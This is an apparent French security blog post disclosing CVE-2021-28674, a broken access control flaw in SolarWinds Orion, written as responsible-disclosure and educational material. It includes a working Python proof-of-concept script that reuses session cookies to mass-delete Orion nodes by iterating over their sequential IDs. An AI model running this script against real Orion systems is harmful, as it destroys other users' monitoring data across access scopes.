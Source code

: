 ```yaml
---
published: true
layout: post
title: "Orion SolarWinds : Ma première CVE (CVE-2021-28674)"
description: "Cet article décrit comment j'ai pu découvrir ma première CVE (CVE-2021-28674) sur le logiciel Orion SolarWinds."
lang: fr_FR
category: solarwinds,orion,cve,pentest,cve-2021-28674
---
```

![Orion SolarWinds : Ma première CVE (CVE-2021-28674)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/illustration.PNG)

SolarWinds Orion Platform est une plate-forme évolutive de gestion et de surveillance de l’infrastructure qui simplifie la gestion informatique des environnements sur site, hybrides et SaaS, sur un seul écran.
En décembre 2020, une cyber attaque à grande échelle s'appuyant sur SolarWinds Orion, utilisé par environ 33 000 clients des secteurs public et privé, est divulguée.
Suite à cela, de nombreux audits sont organisés et des CVE régulièrement trouvées. J'ai moi même pu auditer cette application, trouver et déclarer ma première CVE (CVE-2021-28674) de CVSS 4.6 (criticité moyenne) en date du 18 mars 2021.
Après plusieurs mois d'échanges avec l'éditeur et [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674) pour s'accorder sur la correction et la date de publication, je peux enfin publier cet article car la mise à jour est déjà sortie depuis plusieurs semaines.

## Qu'est-ce que le cloisonnement
Le contrôle d'accès permet d'appliquer une politique telle que les utilisateurs ne peuvent agir en dehors des autorisations qui leur sont accordées. Les défaillances entraînent généralement la divulgation d'informations non autorisées, la modification ou la destruction de toutes les données ou l'exécution d'une fonction commerciale en dehors des limites de l'utilisateur.

## Fonctionnalité de gestion des nœuds
Orion SolarWinds NPM permet de créer des groupes. Un groupe est un ensemble d'objets surveillés. Par exemple, un administrateur peut regrouper les nœuds d'un même emplacement, regrouper toutes les interfaces WAN ou regrouper tous les appareils appartenant à un certain service. L'objectif final de la création de groupes est de permettre de visualiser certains nœuds selon les utilisateurs et de créer un contrôle d'accès sur les nœuds.
La page de gestion des nœuds avec le paramètre NetObject permet de visualiser et de supprimer le nœud **si l'utilisateur a les droits** en spécifiant l'identifiant du nœud (Par exemple : https://URL-INTERNE/Orion/NetPerfMon/NodeDetails.aspx?NetObject=N:17158).
Seuls les utilisateurs disposant du **droit d'écriture** peuvent supprimer un nœud **appartenant à leur périmètre**.


La demande de suppression d'un noeud a été rejouée avec un compte d'un périmètre B sur un noeud qui appartient au périmètre A :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)

Le code de retour de la requête est `200 OK` ce qui signifie que **le serveur prend en compte la suppression du nœud**.
Le noeud **n'est plus accessible** depuis le compte du périmètre A :
[![Nœud Orion Solar Winds supprimé](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/nœuds-supprime.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/nœuds-supprime.png)

Le nœud du **périmètre A** est donc **supprimé** par un compte du **périmètre B**. Cela prouve une **rupture de cloisonnement entre les périmètres**.
De plus, les identifiants des nœuds sont **incrémentaux** et donc facilement **prévisibles**, ce qui permet de créer un script pour **automatiser la suppression de tous les nœuds** pour un attaquant. Il est également possible de créer un nœud qui n'appartient pas à son périmètre.

Un script permettant de supprimer massivement les nœuds a été implémenté :
```python
try :
    import requests
    import time
except :
    print("The package 'requests' is not installed, please install it using pip3")
    exit(1)
        
url = "http://SERVER:PORT/orion/Services/NodeManagement.asmx/DeleteObjNow" # Replace SERVER by the IP or DNS of your Orion SolarWinds plateform
ASPXAUTH_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the .ASPXAUTH cookie value
NET_SessionId_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the NET_SessionId cookie value
number_of_nodes = 150 # The value can be changed to delete the first X number of nodes

custom_cookies = {"ASP.NET_SessionId": NET_SessionId_value,
                 "_ga": "GA1.1.1822133664.1613472044",
                 "_gid": "GA1.1.1288682357.1613472044",
                 ".ASPXAUTH": ASPXAUTH_value,
                 "XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                 "__AntiXsrfToken": "9a14f7b59a0c4352a500f0b84f2b7523"}

custom_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0", "Accept": "*/*",
                  "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate",
                  "X-Requested-With": "XMLHttpRequest", "Content-Type": "application/json; charset=utf-8",
                  "X-XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                  "Connection": "close"}

print("""
 ██████╗██╗     ███████╗██████╗ ███████╗██████╗ 
██╔════╝██║     ██╔════╝██╔══██╗██╔════╝██╔══██╗
██║     ██║     █████╗  ██████╔╝█████╗  ██████╔╝
██║     ██║     ██╔══╝  ██╔══██╗██╔══╝  ██╔══██╗
╚██████╗███████╗███████╗██████╔╝███████╗██║  ██║
 ╚═════╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝
 
This PoC will delete the first """ +str(number_of_nodes) + """ nodes.
You need to replace the variables url, ASPXAUTH_value, number_of_nodes and NET_SessionId_value.
The script will start in 30 seconds, if you want to cancel it, press CTRL + C
""")
time.sleep(30) # Wait 30 seconds to prevent mishandling
print("Progress :")

for i in range (number_of_nodes):
    node_id={"netObjectIds": "N:" + str(i) + ":1"} # Iteration over the number of nodes because the nodes ID because ID is incremental 
    try :
        request = requests.post(url, headers=custom_headers, cookies=custom_cookies, json=node_id)
    except :
        print("Impossible to execute the request, check the url value")
        exit(2)
    if (request.status_code != 200):
        print("Impossible to delete nodes, please check the content of the variables ASPXAUTH_value, number_of_nodes and NET_SessionId_value")
        print("Status code : " + str(request.status_code))
        exit(2)
    print("{0:.2f}%".format(i*100/number_of_nodes)+" %")
print("The first " + str(number_of_nodes) + " are now deleted.")
```

Le script ainsi que la marche à suivre pour résoudre le problème a été envoyée directement à l'équipe sécurité de SolarWinds. Après plusieurs échanges, nous avons convenu d'un date de mise à jour et procédé à la déclaration sur MITRE. La page dédiée à la vulnérabilité est disponible sur le site de [SolarWinds](https://www.solarwinds.com/fr/trust-center/security-advisories/cve-2021-28674), la mise à jour en question a été publiée le 13 mai 2021 sur leur [page dédiée](https://support.solarwinds.com/SuccessCenter/s/article/Orion-Platform-2020-2-5-Hotfix-1?language=en_US)
Suite au déploiement de la mise à jour par SolarWinds, MITRE a publié tous les détails que je leur avait fait parvenir sur [cette page](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674).

Nous avons décidé de lui attribuer le score CVSS de 4,6 qui en fait une vulnérabilité de criticité moyenne :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)



